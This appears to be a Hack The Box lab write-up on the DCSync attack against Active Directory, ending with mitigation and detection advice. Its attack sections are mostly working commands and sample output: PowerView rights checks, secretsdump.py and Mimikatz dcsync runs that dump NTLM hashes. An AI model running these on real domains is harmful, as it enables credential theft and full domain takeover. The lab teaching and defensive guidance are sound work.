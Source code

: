 ## Overview

DCSync is a powerful attack technique used to extract password hashes from Active Directory (AD) by impersonating a domain controller. This method exploits the Directory Replication Service Remote Protocol to request replication of user credentials, allowing attackers to retrieve NTLM password hashes.

## Scenario Setup

This section outlines how to leverage DCSync for full domain compromise using both Linux and Windows attack hosts. The following hosts will be used:

- **Windows Attack Host** (MS01): Accessible via RDP with `htb-student:Academy_student_AD!`
- **Linux Attack Host**: Accessible via SSH from MS01 with `htb-student:HTB_@cademy_stdnt!`
- **Target Domain Controller**: `INLANEFREIGHT.LOCAL`

## Understanding DCSync

DCSync requires control over an account with **domain replication privileges**, specifically `DS-Replication-Get-Changes-All`. Typically, Domain Admins and Enterprise Admins have these privileges by default. However, other accounts may be granted these rights, making them valuable targets.

## Checking User Privileges

We first verify if our compromised user `adunn` has the necessary permissions.

### Viewing `adunn`'s Group Membership

```powershell
Get-DomainUser -Identity adunn | select samaccountname, objectsid, memberof, useraccountcontrol | fl
```

### Checking Replication Rights

```powershell
$sid = "S-1-5-21-3842939050-3880317879-2865463114-1164"
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | 
? { ($_.ObjectAceType -match 'Replication-Get') } | 
? { $_.SecurityIdentifier -match $sid } | 
select AceQualifier, ObjectDN, ActiveDirectoryRights, SecurityIdentifier, ObjectAceType | fl
```

If `DS-Replication-Get-Changes-All` appears in the output, `adunn` has the required privileges.

## Executing the DCSync Attack

DCSync can be executed using **Impacket’s secretsdump.py** or **Mimikatz**.

### Using `secretsdump.py` (Linux)

```bash
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
```

#### Example Output:

```
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
inlanefreight.local\htb-student:1111:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
```

To target a specific user:

```bash
secretsdump.py -just-dc-user administrator INLANEFREIGHT/adunn@172.16.5.5
```

### Using Mimikatz (Windows)

#### Run as `adunn`:

```cmd
runas /netonly /user:INLANEFREIGHT\adunn powershell
```

#### Execute DCSync:

```powershell
mimikatz.exe
privilege::debug
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```

#### Example Output:

```
SAM Username         : administrator
Hash NTLM           : 88ad09182de639ccc6579eb0849751cf
```

## Additional Enumeration

If password history is needed:

```bash
secretsdump.py -history -just-dc INLANEFREIGHT/adunn@172.16.5.5
```

To check password last set dates:

```powershell
Get-ADUser -Filter * -Properties PwdLastSet | select SamAccountName, PwdLastSet
```

## Mitigation Strategies

1. **Restrict Replication Privileges**: Limit `DS-Replication-Get-Changes-All` to only domain controllers.
2. **Enable Monitoring & Logging**:
    - Use **Event ID 4662** (Audit Directory Service Access) to detect abnormal replication requests.
    - Monitor **Event ID 4742** (user account changes) for privilege escalation attempts.
3. **Implement the Principle of Least Privilege (PoLP)**: Ensure only necessary users have replication rights.
4. **Use Managed Service Accounts**: Replace regular user accounts for sensitive operations.
5. **Enable LAPS (Local Administrator Password Solution)**: Prevent local admin credential reuse.

## Conclusion

DCSync is a critical attack vector that can lead to full domain compromise. Understanding detection and mitigation strategies is essential to securing Active Directory environments. By proactively auditing privileges and monitoring replication requests, organizations can significantly reduce their risk exposure.